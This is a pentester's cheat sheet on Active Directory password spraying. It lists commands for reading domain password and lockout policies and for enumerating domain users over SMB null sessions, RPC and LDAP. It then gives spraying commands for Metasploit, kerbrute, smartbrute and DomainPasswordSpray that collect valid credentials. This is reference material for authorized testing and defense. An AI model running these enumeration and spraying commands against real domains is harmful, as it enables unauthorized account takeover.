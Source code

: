 # Password Spraying




## Password Policy

Enumerate password policy in the domain:

```
$ cme smb 10.10.13.37 -u snovvcrash -p 'Passw0rd!' --pass-pol
Cmd > net accounts /domain
PS > Get-ADDefaultDomainPasswordPolicy
PV3 > Get-DomainPolicyData | select -ExpandProperty SystemAccess
```

Example of `net accounts` output:

| Name (EN)                              | Name (RU)                                 | Value |
|----------------------------------------|-------------------------------------------|-------|
| Minimum password age (days):           | Минимальный срок действия пароля (дней):  | 1     |
| Maximum password age (days):           | Максимальный срок действия пароля (дней): | 90    |
| Minimum password length:               | Минимальная длина пароля:                 | 10    |
| Length of password history maintained: | Хранение неповторяющихся паролей:         | 24    |
| Lockout threshold:                     | Блокировка после ошибок ввода пароля:     | 7     |
| Lockout duration (minutes):            | Длительность блокировки (минут):          | 30    |
| Lockout observation window (minutes):  | Сброс счетчика блокировок через (минут):  | 30    |



### Fine-Grained Password Policies

- [https://specopssoft.com/blog/create-fine-grained-password-policy-active-directory/](https://specopssoft.com/blog/create-fine-grained-password-policy-active-directory/)
- [https://pwsh.ru/fine-grained-password-policy-как-создать-детальную-политику/](https://pwsh.ru/fine-grained-password-policy-как-создать-детальную-политику/)

Map FGPPs to the users they're being applied to (need admin privileges by default):

```powershell
ForEach ($fgpp in (Get-ADFineGrainedPasswordPolicy -Filter * -Properties Description)) {
    $appliesTo = $fgpp | select -ExpandProperty AppliesTo
    $objectClass = (Get-ADObject $appliesTo).ObjectClass

    Write-Host -ForegroundColor Yellow "`r`nFine Grained Password Policy: $fgpp.name"
    $fgpp | Out-Host

    If ($objectClass -eq "group") {
        Get-ADGroupMember $appliesTo -Recursive | ? {$_.objectClass -eq "user"} | select -ExpandProperty samAccountName | Write-Host -ForegroundColor Green
    }
    ElseIf ($objectClass -eq "user") {
        Get-ADUser $appliesTo | select -ExpandProperty samAccountName | Write-Host -ForegroundColor Green
    }
}
```

{% hint style="info" %}
When it's critical not to cause a lockout on a user account with a FGPP applied, the safest approach would be to exclude users with `msDS-PSOApplied` or `msDS-ResultantPSO` properties populated (can be read by a regular user) from the spray list.

Check if exists:

```
PS > Get-ADUser snovvcrash -Properties * | select msDS-PSOApplied
PS > Get-ADUser snovvcrash -Properties msDS-ResultantPSO | select msDS-ResultantPSO
```
{% endhint %}




## Get Domain Users



### Non-Authenticated (Null Session)

- [https://wiki.porchetta.industries/smb-protocol/enumeration/enumerate-null-sessions](https://wiki.porchetta.industries/smb-protocol/enumeration/enumerate-null-sessions)

{% content-ref url="/pentest/infrastructure/ad/rid-cycling.md" %}
[rid-cycling.md](rid-cycling.md)
{% endcontent-ref %}

If SMB null sessions are allowed on the DC, an adversary can get a list of all domain users via **RID Cycling**.

Another approach is to manually request all users via RPC (`$IPC` share):

- CrackMapExec:

```
$ cme smb DCs.txt -u '' -p ''
$ cme smb DCs.txt -u '' -p '' --users
$ cme smb DCs.txt -u '' -p '' --groups
```

- rpcclient:

```
$ rpcclient -N -U '' 192.168.1.11
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
```

- net:

```
$ net rpc group members 'Domain Users' -W 'MEGACORP' -I '192.168.1.11' -U '%'
```

- smbclient (check):

```
$ smbclient -N -U '' -L 192.168.1.11
```

- [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) / [enum4linux-ng](https://github.com/cddmp/enum4linux-ng):

```
$ enum4linux -v -a 192.168.1.11 | tee ~/ws/log/enum4linux.out
```

- [nullinux](https://github.com/m8r0wn/nullinux):

```
$ nullinux.py 192.168.1.11
```



### Authenticated

Query LDAP for all domain user accounts via [GetADUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetADUsers.py):

```
$ GetADUsers.py MEGACORP/snovvcrash:'Passw0rd!' -all -dc-ip 192.168.1.11 | tee ~/ws/logs/GetADUsers.out
```

Query LDAP for all domain user accounts via [windapsearch](https://github.com/ropnop/windapsearch):

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U | tee ~/ws/logs/windapsearch.out
$ cat ~/ws/logs/windapsearch.out | grep userPrincipalName | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | awk -F@ '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

Query LDAP for all **active** domain user accounts via [go-windapsearch](https://github.com/ropnop/go-windapsearch):

```
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd!' -m custom --filter '(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))' --attrs sAMAccountName,mail,pwdLastSet,lastLogon | tee ~/ws/logs/windapsearch.out
$ cat ~/ws/logs/windapsearch.out | grep -i samaccountname | grep -v -e '{' -e '}' -e HealthMailbox -e '\$$' | awk '{print $2}' | perl -nle 'print if m{^[[:ascii:]]+$}' | sort -u > ~/ws/enum/all-users-active.txt
```




## MSF

```
msf > use auxiliary/scanner/smb/smb_login
msf > set RHOSTS <DC_IP>
msf > set SMBDomain megacorp.local
msf > set SMBPass Passw0rd!
msf > set USER_FILE /home/snovvcrash/ws/enum/all-users.txt
msf > set VERBOSE False
msf > run
```




## kerbrute

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)
* [https://github.com/urbanadventurer/username-anarchy](https://github.com/urbanadventurer/username-anarchy)
* [https://gist.github.com/superkojiman/11076951](https://gist.github.com/superkojiman/11076951)

Generate a wordlist of common usernames in an appropriate format and validate it against KDC ([doesn't cause](https://github.com/ropnop/kerbrute#user-enumeration) accounts lock out):

```
$ kerbrute userenum -d megacorp.local -o ~/ws/logs/kerbrute-userenum.log ~/ws/enum/names.txt
$ cat ~/ws/logs/kerbrute-userenum.log | grep VALID | awk '{print $7}' | awk -F@ '{print $1}' > ~/ws/enum/valid-users.txt
```

Perform password spraying for discovered accounts:

```
$ kerbrute -v --delay 100 passwordspray -d megacorp.local -o ~/ws/logs/kerbrute-passwordspray-'123456'.log ~/ws/enum/valid-users.txt '123456'
$ cat ~/ws/logs/kerbrute-passwordspray-*.log | grep VALID | awk '{print $7}' >> ~/ws/loot/creds.txt
```




## pyKerbrute

- [https://github.com/3gstudent/pyKerbrute](https://github.com/3gstudent/pyKerbrute)

```
$ python2 ADPwdSpray.py 192.168.1.11 megacorp.local users.txt ntlmhash fc525c9683e8fe067095ba2ddc971889 udp
```




## smartbrute

- [https://github.com/ShutdownRepo/smartbrute](https://github.com/ShutdownRepo/smartbrute)

Spray single hash against a list of users:

```
$ smartbrute -v brute --delay 100 --no-enumeration -bU users.txt -bh <HASH_TO_SPRAY> kerberos -d megacorp.local --kdc-ip 192.168.1.11
```

Get domain password policy and active users:

```
$ smartbrute -v smart {--policy|--users} ntlm -d megacorp.local -u snovvcrash -p 'Passw0rd!' --dc-ip 192.168.1.11
```

Launch smart password spray with a hash:

```
$ smartbrute -v smart --delay 100 -bh <HASH_TO_SPRAY> ntlm -d megacorp.local -u snovvcrash -p 'Passw0rd!' --dc-ip 192.168.1.11 kerberos
```




## DomainPasswordSpray

* [https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

```
PS > Invoke-DomainPasswordSpray -UserList .\all-users.txt -Domain megacorp.local -Password 'Passw0rd!' -OutFile spray-results.txt
```
